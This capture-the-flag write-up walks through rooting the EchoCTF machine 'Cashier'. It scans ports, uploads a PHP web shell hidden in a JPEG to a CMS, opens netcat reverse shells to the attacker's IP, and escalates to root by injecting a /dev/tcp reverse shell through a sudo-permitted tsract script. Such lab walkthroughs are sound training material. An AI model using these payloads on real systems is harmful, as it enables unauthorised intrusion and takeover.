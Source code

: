 # Cashier Writeup  for EchoCTF

In this writeup, we will be walking through the steps to exploit a vulnerable CMS and escalate privileges to root on Cashier in EchoCTF.

### Step One: Port Discovery

We use [Nmap](https://nmap.org/) to scan the open ports 

```
nmap -p1-10000 -sCV -n -Pn -v [TARGET_IP] 
```

*p1-10000: Scans ports 1 through 10,000.
sCV: Combines service detection (-sV) with default script scans (-sC) to enumerate service versions and vulnerabilities.
n: Skips DNS resolution for faster scanning.
Pn: Treats the target as online without pinging, useful for firewalled hosts.*


![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/nmap%20result1.png)

We see port **22** (SSH) and port **80** (HTTP)

### Step Two: Getting In

We visit the http website (port 80)
We are prompted to the login page for the CMS

`
http://[TARGET_IP]/login.php
`

Now, we need to find the default username and password for the cms which is easy through a quick online search *(or brute force it, but in this situation it is not needed)*

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/loginSukses.png)



After finding the login credentials and logging into the CMS, we go to the profile section

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/profile1.png)

`http://[TARGET_IP]/index.php?page=user`

#### Step Three: Exploit the CMS

Then, we need to open [BurpSuite](https://portswigger.net/burp)

Select a JPEG image ***(The image has to be JPEG, PNG won't work in this scenario)*** and insert it.

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/profile2.png)

Capture the upload request that is sent by clicking **Ganti Foto**.

Insert a php script into your image that will enable you to get a reverse shell.  
For example:

```php
 <?php system ($_GET['cmd']) ?>
 ```
 or

 ```php
 <?php passthru($_GET['cmd']); __halt_compiler(); ?>
 ```

It should look something like this

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/get%20cmd%20shell.png)

After this, we should see that our image has actually been uploaded to the server

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/success-edit-data.png)

Another indicator that the image has been successfully uploaded will be seeing this:

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/proof%20that%20shell%20is%20uploaded.png)

***The image will be stored with a random number before the name we set, so to find it we need to inspect the page  (Ctrl+Shift+C)***

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/shell%20location.png)

Now, we need to set up a reverse shell, which is done like this:

Open the bash console and type

```
nc -nlvp [YOUR_PORT]
```

Then, in the url of the image (*which can be copy+pasted from the page source*), we insert this payload to get a reverse shell    

```
cmd= nc -e /bin/bash [YOUR_IP] [YOUR_PORT]
```

After we've successfully created a reverse shell, we need to see how we can escalate our privileges to root.

### Step Four: Getting Root

if we run 
```
sudo -l
```

the server returns a script

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/sudoL.png)

Searching online for a tsract (tesseract) exploit, we find that it is vulnerable to arbitrary code execution via the child_process function due to improper input sanitization.
We can leverage this for privilege escalation.

I wrote a simple bash script for this:

```
sudo /usr/local/bin/tsract "; bash -c 'bash -i >& /dev/tcp/[YOUR_IP]/[YOUR_PORT] 0>&1'; #"
```

***The underlying cause of the vulnerability can be researched further online for detailed technical insights. TL;DR is that the package uses child_process (e.g., exec() or spawn()) to execute Tesseract commands. It appends the image filename provided by the user directly to the command without sanitization.***

The script basically creates a new connection to our machine as root, so we use [netcat](https://netcat.sourceforge.net/) to do this, in a similar fashion to how we did before.

In the new netcat window, we should see a connection like this:

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/root.png)

And we have root! 

### Final Thoughts

This challenge highlighted the importance of understanding how misconfigurations and input sanitization flaws can expose systems to serious risks. By systematically identifying vulnerabilities, and leveraging known exploits, we were able to gain root access on the target system.
From a defensive standpoint, implementing strong security practices such as restricting permissions, sanitizing inputs, and disabling unnecessary services, can greatly reduce the attack surface.

While this challenge was completed in a controlled environment, similar techniques could have devastating effects on real-world systems. Ethical hacking and responsible disclosure are key to ensuring such vulnerabilities are mitigated before they are exploited by malicious actors.

PS: 
`[YOUR_IP]= Your VPN IP 
[YOUR_PORT]= Custom port to use for netcat
[TARGET_IP]= IP of the machine you are hacking`

